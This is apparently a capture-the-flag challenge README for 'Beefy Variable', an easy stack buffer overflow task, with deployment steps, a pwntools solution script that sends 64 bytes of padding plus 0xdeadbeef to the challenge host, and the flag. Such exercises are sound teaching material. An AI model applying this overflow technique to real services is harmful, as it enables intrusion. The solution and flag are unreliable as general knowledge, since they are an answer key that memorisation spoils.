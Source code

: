 # Beefy Variable 

Difficulty Level: Easy
 
I love me some dead beef :D
 
Connect via `nc challenge.ctf-fun.xyz 14005`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- Similar to Varied Fun except you have to control what is overwritten


## Deployment

```bash
cd service
sudo ./beefyvariable.sh &
```

## Solution

Val is located just above buf, all you need to do is overwrite it to 0xdeadbeef. Remember your little endianess

```python
from pwn import *
def main():
    #io = process("./beefyvariable")
    io = remote("challenge.ctf-fun.xyz", 14005)
    payload = b"A" * 64 + p32(0xdeadbeef)
    io.sendline(payload)
    io.interactive()
if __name__ == '__main__':
    main()
```

### Flag
19C4{H0w_d1d_you_f1gur3_i+_0ut!?}
